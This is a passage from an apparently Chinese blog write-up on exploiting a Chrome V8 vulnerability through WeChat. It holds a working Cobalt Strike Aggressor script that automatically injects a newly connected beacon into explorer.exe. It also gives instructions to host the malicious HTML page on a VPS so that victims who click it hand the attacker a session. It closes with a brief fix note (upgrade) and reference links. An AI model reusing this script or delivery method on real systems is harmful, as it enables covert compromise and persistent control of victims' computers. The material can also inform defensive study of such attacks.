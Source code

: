 ```python
on beacon_initial
{
 sub callback
 {
  $regex = '(.*\n)+explorer.exe\t\d+\t(\d+)(.*\n)+';
  $listener = "test";
  if ($2  ismatch $regex)
  {
   $pid = matched()[1];
   $inject_pid = $pid;
   if (-is64 $1)
   {
    $arch = "x64";
   }
   else
   {
    $arch = "x86";
   }
   binject($1, $pid, $listener, $arch);
  }
 }
 if($inject_pid != beacon_info($1,"pid"))
 {
  bps($1, &callback);
 }
}
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210420203343997.png)
##测试上线
有vps的可以简单在服务器上开个python服务，命令为`python -m SimpleHTTPServer port`，将需要点击的html放入服务器中产生连接进行点击即可上线，自动生成一个explorer的会话。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210420203746553.png)
四: 修复方法：升级官方发布的最新版本即可

参考连接：https://ailiqun.xyz/2021/04/18/%E8%B0%B7%E6%AD%8C%E6%B5%8F%E8%A7%88%E5%99%A8-v8-%E5%9C%A8%E5%BE%AE%E4%BF%A1%E4%B8%8A%E7%9A%84%E5%BA%94%E7%94%A8/
https://www.t00ls.net/viewthread.php?tid=60463&extra=&page=1